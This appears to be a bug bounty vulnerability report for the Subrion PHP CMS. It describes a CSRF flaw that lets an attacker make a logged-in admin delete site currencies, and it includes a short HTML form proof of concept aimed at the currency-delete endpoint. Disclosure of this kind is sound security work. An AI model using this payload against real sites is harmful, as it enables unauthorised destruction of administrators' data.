 # Description
`Subrion` is PHP based CMS. It is one of the best CMS I ever used.The Project is vulnerable to CSRF attack which allows a user to force admin to delete the "Currencies" added in the site.


# Steps To Reproduce & POC
1:Download and Setup `Subrion` [Subrion-Link](https://github.com/intelliants/subrion/)   
2:Extract the source code to an Apache server with MYSQL   
3:As Default 3 Currencies are added in the Site you can view it by navigaing to http://localhost/huntr/subrion/panel/currencies/   
4:Save the below code as HTML and Click Submit . The Currencie will be deleted    
```
html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/subrion/panel/currencies/delete/EUR/">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
# Impact
This can allow a user to force admin to remove "Currencies" from the website